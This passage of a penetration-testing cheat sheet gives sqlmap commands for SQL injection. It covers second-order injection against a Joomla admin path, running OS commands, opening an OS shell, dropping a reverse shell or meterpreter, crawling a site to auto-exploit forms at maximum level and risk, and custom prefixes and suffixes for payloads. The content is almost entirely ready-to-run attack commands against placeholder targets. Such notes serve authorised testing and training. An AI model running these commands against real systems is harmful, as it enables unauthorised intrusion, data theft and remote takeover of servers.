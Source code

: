 ### Second order injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```

### Crawl a website with SQLmap and auto-exploit

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

## Customizing Injection

### Set a suffix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### Prefix

```bash
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "
```

### Help finding boolean injection

```bash
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch
```
